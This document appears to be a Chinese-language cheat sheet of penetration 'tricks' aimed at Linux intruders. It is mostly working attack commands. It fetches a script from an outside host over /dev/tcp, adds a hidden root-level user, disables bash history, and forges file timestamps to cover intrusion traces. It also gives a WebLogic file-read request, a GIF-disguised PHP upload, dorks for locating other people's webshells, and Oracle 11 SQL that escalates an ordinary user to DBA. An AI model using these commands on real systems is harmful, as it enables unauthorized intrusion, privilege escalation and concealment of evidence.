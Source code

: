 # note {#note}

shell code

MSF metasploit framework

blackhat

送给linux渗透爱好者的小技巧:

1.无wget nc等下载工具时下载文件

exec 5&lt;&gt;/dev/tcp/yese.yi.org/80 &amp;&amp;echo -e &quot;GET /c.pl HTTP/1.0\n&quot; &gt;&amp;5 &amp;&amp; cat&lt;&amp;5 &gt; c.pl

2.Linux添加uid为0的用户

useradd -o -u 0 cnbird

3.bash去掉history记录

export HISTSIZE=0

export HISTFILE=/dev/null

4.SSH反向链接

ssh -C -f -N -g -R 44:127.0.0.1:22 cnbird@ip -p 指定远端服务器SSH端口

然后服务器上执行ssh localhost  -p 44即可

5.weblogic本地读取文件漏洞

curl -H &quot;wl_request_type: wl_xml_entity_request&quot; -H &quot;xml-registryname: ../../&quot; -H &quot;xml-entity-path: config.xml&quot; [http://server/wl_management_internal2/wl_management](http://server/wl_management_internal2/wl_management)

6.apache查看虚拟web目录

./httpd -t -D DUMP_VHOSTS

7.cvs渗透技巧

CVSROOT/passwd   UNIX SHA1的密码文件

CVSROOT/readers

CVSROOT/writers

CVS/Root  

CVS/Entries     更新的文件和目录内容

CVS/Repository

8.Cpanel路径泄露

/3rdparty/squirrelmail/functions/plugin.php

9.修改上传文件时间戳(掩盖入侵痕迹)

touch -r 老文件时间戳 新文件时间戳

10.利用baidu和google搜索目标主机webshell

intitle:PHPJackal 1t1t

11.包总补充

创建临时&quot;隐藏&quot;目录 mkdir /tmp/...

/tmp/...目录在管理员有宿醉的情况下是&quot;隐藏&quot;的，可以临时放点exp啥的

12.利用linux输出绕过gif限制的图片

printf &quot;GIF89a\x01\x00\x01\x00&lt;?php phpinfo();?&gt;&quot; &gt; poc.php

13.读取环境变量对于查找信息非常有帮助

/proc/self/environ

14.最新的ORACLE 11提升用户权限(只要session权限)

DBMS_JVM_EXP_PERMS 中的IMPORT_JVM_PERMS

判断登陆权限

select * from session_privs;

Create SESSION

select * from session_roles;

select TYPE_NAME, NAME, ACTION FROM SYS.DBA_JAVA_POLICY Where GRANTEE = &amp;apos;GREMLIN(用户名)&amp;apos;;

DESC JAVA$POLICY$

DECLARE

POL DBMS_JVM_EXP.TEMP_JAVA_POLICY;

CURSOR C1 IS Select &amp;apos;GRANT&amp;apos; USER(), &amp;apos;SYS&amp;apos;, &amp;apos;java.io.FilePermission&amp;apos;, &amp;apos;&lt;&lt;ALL FILES&gt;&gt;&amp;apos;, &amp;apos;execute&amp;apos;, &amp;apos;ENABLE&amp;apos; FROM DUAL;

BEGIN

OPEN C1;

FETCH C1 BULK COLLECT INTO POL;

CLOSE C1;

DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);

END;

/

connect / as sysdba

COL TYPE_NAME FOR A30;

COL NAME FOR A30;

COL_ACTION FOR A10;

Select TYPE_NAME, NAME, ACTION FROM SYS.DBA_JAVA_POLICY Where GRANTEE = &amp;apos;用户&amp;apos;;

connect 普通用户

set serveroutput on

exec dbms_java.set_output(10000);

Select DBMS_JAVA.SET_OUTPUT_TO_JAVA(&amp;apos;ID&amp;apos;, &amp;apos;oracle/aurora/rdbms/DbmsJava&amp;apos;, &amp;apos;SYS&amp;apos;, &amp;apos;writeOutputToFile&amp;apos;, &amp;apos;TEXT&amp;apos;, NULL, NULL, NULL, NULL,0,1,1,1,1,0, &amp;apos;DECLARE PRAGMA AUTONOMOUS_TRANSACTION;&amp;apos;BEGIN EXECUTE IMMEDIATE &amp;apos;&amp;apos;GRANT DBA TO 用户&amp;apos;&amp;apos;; END;&amp;apos;, &amp;apos;BEGIN NULL; END;&amp;apos;) FROM DUAL;

EXEC DBMS_CDC_ISUBSCRIBE.INT_PURGE_WINDOWS(&amp;apos;NO_SUCH_SUBSCRIPTION&amp;apos;, SYSDATE());

set role dba;

select * from session_privs;

EXEC SYS.VULNPROC(&amp;apos;FOO&quot;||DBMS_JAVA.SET_OUTPUT_TO_SQL(&quot;ID&quot;,&quot;DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE&quot;&quot;GRANT DBA TO PUBLIC&quot;&quot;;DBMS_OUTPUT.PUT_LINE(:1);END;&quot;,&quot;TEXT&quot;)||&quot;BAR&amp;apos;);

Select DBMS_JAVA.RUNJAVA(&amp;apos;oracle/aurora/util/Test&amp;apos;) FROM DUAL;

SET ROLE DBA;

15\. webLogic渗透技巧

四. Weblogin Script Tool(WLST)

写入到&lt;Domain_home&gt;\\config\\config.xml

1.进行修改:

&lt;bea_home&gt;\wlserver_10.0\server\bin\setWLSenv.sh

2.启动WLST

java weblogic.WLST

wls:/offline&gt; connect(&amp;apos;admin&amp;apos;, &amp;apos;admin&amp;apos;, &amp;apos;t3://127.0.0.1:7001&amp;apos;)

wls:/bbk/serverConfig&gt; help()

wls:/bbk/serverConfig&gt; edit()

wls:/bbk/serverConfig&gt; cd(&amp;apos;Servers&amp;apos;)

wls:/bbk/serverConfig/Server-cnbird&gt; cd(&amp;apos;Log&amp;apos;)

wls:/bbk/serverConfig/Server-cnbird/log&gt; cd(&amp;apos;Server-cnbird&amp;apos;)

wls:/bbk/serverConfig/Server-cnbird/log/Server-cnbird&gt; startEdit()

wls:/bbk/serverConfig/Server-cnbird/log/Server-cnbird !&gt; set(&amp;apos;FileCount&amp;apos;, &amp;apos;4&amp;apos;)

wls:/bbk/serverConfig/Server-cnbird/log/Server-cnbird !&gt; save()

wls:/bbk/serverConfig/Server-cnbird/log/Server-cnbird !&gt; activate() 提交对应Active Change

wls:/bbk/serverConfig/Server-cnbird/log/Server-cnbird !&gt; disconnect()

wls:/offline&gt; exit()

3.批处理:

保存以上命令为cnbird.py

connect(&amp;apos;admin&amp;apos;, &amp;apos;admin&amp;apos;, &amp;apos;t3://127.0.0.1:7001&amp;apos;)

cd(&amp;apos;Servers&amp;apos;)

cd(&amp;apos;Log&amp;apos;)

cd(&amp;apos;Server-cnbird&amp;apos;)

startEdit()

set(&amp;apos;FileCount&amp;apos;, &amp;apos;4&amp;apos;)

save()

然后执行java weblogic.WLST cnbird.py